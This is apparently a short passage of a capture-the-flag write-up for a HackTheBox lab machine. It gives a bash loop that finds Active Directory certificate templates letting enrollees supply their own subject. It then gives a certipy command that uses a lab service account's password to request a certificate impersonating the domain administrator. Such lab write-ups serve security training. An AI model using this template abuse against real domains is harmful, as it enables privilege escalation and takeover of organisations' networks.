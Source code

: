 
![](images/sillygoose.png)

```sh
tps=("CorpVPN")

for tp in ${tps[@]}; do
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep 'CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT\s--\s1' > /dev/null
		if [[ "$?" -eq 0 ]]; then 
			echo "${tp} is vulnerable"
		fi
	echo
done
```

![](images/maybeawin.png)

```sh
certipy-ad req \
	-username 'svc_ldap@authority.htb' \
	-password 'lDaP_1n_th3_cle4r!' \
	-target-ip 10.129.12.250 \
	-ca 'AUTHORITY-CA' \
	-template 'CorpVPN' \
	-upn 'administrator@authority.htb' \
	-debug
```
